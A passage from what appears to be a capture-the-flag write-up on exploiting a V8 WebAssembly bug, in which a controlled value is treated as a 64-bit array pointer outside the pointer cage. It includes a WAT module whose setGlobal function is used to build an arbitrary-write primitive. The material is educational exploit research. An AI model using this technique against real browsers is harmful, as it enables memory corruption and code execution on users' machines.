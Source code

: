 ![crash](https://github.com/Kyle-Kyle/blog/raw/master/_posts/resource/dice22/crash.png)

From the screenshot, we can clearly tell the V8 tries to treat our controlled value as an array pointer and load/store a value into where its first element points to. The most important thing here is that: everything is addressed in 64bit!!! No more cage!!!

Now things are easy, we first need to enhance our wat code. Instead of increasing the global value, we want it to store an arbitrary value into the global variable. This is implemented like this:
~~~
(module
   (global $g (import "js" "global") (mut i64))
   (func (export "getGlobal") (result i64)
        (global.get $g))
   (func (export "incGlobal")
        (global.set $g
            (i64.add (global.get $g) (i64.const 1))))
   (func (export "setGlobal") (param $p1 i64)
        (global.set $g (local.get $p1)))
)
~~~
